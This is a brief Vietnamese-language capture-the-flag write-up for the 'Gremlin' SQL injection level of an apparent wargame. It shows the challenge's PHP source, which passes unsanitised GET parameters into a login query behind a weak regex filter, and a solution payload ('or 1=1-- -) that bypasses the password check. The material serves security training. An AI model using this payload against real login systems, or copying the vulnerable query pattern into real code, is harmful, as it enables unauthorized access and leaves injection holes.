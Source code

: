Gremlin
===
### Desscription
- Source 
```
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### Solution
- Phân tích code thì ta thấy , chúng ta có tham số để nhập vào là `id` và `pw`, cả 2 đều được filter giống nhau để tránh chúng ta attack vào các table khác như author comment. vì `id` và `pw` được truyền thẳng vào câu query nên chúng ta có thể injection vô cả 2. Sau đó in ra câu query của mình nhập vào. Chỉ cần có kết quả của id được trả về thì có thể solves.
- Chúng ta chỉ cần cho select tại `id = 1` và `pw thành true`.

#### Payload: `?id=1&pw='or 1=1-- -`